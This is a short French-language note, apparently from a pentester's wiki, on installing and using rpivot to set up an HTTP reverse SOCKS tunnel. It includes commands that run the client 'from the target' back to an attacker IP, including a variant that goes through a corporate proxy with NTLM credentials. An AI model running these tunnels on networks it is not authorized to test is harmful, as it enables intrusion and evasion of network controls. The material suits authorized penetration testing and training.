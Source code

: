 ```yaml
---
public: true # set to true to make the article publishable
---
```

## Installation

```

sudo git clone https://github.com/klsecservices/rpivot.git
sudo apt-get install python2.7
```

## Fonctionnement

Cet outil s'appuie sur le protocole HTTP et peut même se connecter au proxy de l'entreprise en utilisant une authentification NTLM 

2 composants : 
- `server.py` à installer sur la machine de l'attaquant : il écoute localement sur 2 ports
	- 1 port sur lequel le `client.py` va se connecter
	- 1 port sur lequel il expose un service **socks4**
- `client.py` qui se connecte au `server.py` pour établir un tunnel HTTP.

### Lancement du serveur

```
# sur la machine de l'attaquant
python2.7 server.py --proxy-port 1080 --server-port 1234 --server-ip 0.0.0.0
```

### Lancement du client

```
# depuis la cible
# connexion simple
python2.7 client.py --server-ip 10.10.15.213 --server-port 1234

# connexion via le proxy de l'entreprise avec une authentification NTLM
python2.7 client.py --server-ip 10.10.15.213 --server-port 1234 --ntlm-proxy-ip <ProxyIP> --ntlm-proxy-port 3129 --domain DOMAIN --username user --password pass
```